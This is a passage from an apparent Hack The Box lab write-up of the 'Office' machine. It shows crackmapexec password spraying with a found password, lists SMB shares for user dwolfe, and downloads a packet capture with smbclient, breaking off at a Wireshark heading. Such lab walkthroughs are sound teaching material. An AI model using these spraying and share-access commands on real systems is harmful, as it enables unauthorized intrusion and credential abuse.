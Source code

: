 ### Password Spraying

Now that we have list of valid users, let's spray the password on those users using crackmapexec:

`crackmapexec smb 10.10.11.3 -u users.txt -p 'H0lOgrams4reTakIng0Ver754!'`

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/office/image-12.png)

We get valid match for user **dwolfe**.

## User tstark Pwn
### SMB Access

Now that we can access smb using credentials for **dwolfe**, let's see what shares are there:

`crackmapexec smb 10.10.11.3 -u dwolfe -p 'H0lOgrams4reTakIng0Ver754!' --shares`

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/office/image-14.png)

Among the shares where **dwolfe** has the read permission to, **SOC Analysis** shares looks the most interesting. 

Let's download the file **Latest-System-Dump-8fbc124d.pcap** using **smbclient**:

`sudo smbclient '//10.10.11.3/Soc Analysis' -U dwolfe%'H0lOgrams4reTakIng0Ver754!'`

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/office/image-15.png)

### Wireshark

